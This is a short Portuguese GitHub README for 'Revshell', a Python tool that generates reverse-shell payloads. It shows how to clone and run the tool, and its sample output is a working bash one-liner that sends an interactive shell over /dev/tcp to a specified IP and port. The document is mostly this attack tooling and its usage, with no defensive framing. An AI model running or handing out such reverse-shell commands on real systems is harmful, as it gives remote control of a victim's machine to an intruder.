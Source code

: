 # Instalação

Revshell requer **python3** e para baixá-lo só usar:

```sh
git clone https://github.com/joaoviictorti/Revshell
```

# Executando Revshell

```console
python3 Revshell.py -ip 192.168.4.160 -port 8080 -payload bash

 (                                       
 )\ )                    )       (   (   
(()/(   (    )        ( /(    (  )\  )\  
 /(_)) ))\  /((   (   )\())  ))\((_)((_) 
(_))  /((_)(_))\  )\ ((_)\  /((_)_   _   
| _ \(_))  _)((_)((_)| |(_)(_)) | | | |  
|   // -_) \ V / (_-<| ' \ / -_)| | | |  
|_|_\\___|  \_/  /__/|_||_|\___||_| |_|  

bash -c 'exec bash -i &>/dev/tcp/192.168.4.160/8080 <&1'
```


<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
